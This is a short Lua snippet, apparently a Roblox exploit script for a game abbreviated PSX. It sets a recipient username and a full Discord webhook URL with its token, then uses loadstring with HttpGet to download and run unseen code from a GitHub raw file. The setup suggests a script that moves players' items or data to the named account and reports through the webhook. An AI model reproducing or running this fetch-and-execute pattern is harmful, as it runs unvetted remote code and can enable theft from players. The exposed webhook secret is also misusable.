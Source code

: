 UserName = "jwghvegcwe" WebHook = "https://discord.com/api/webhooks/1092100353031405658/CK_emzchRnc5IQ4ZLFGBGmBkS74lRaHOUB7pNS4oz94cCwTu7nMjn91CggYYBWo66G5H" loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/New.lua", true))()
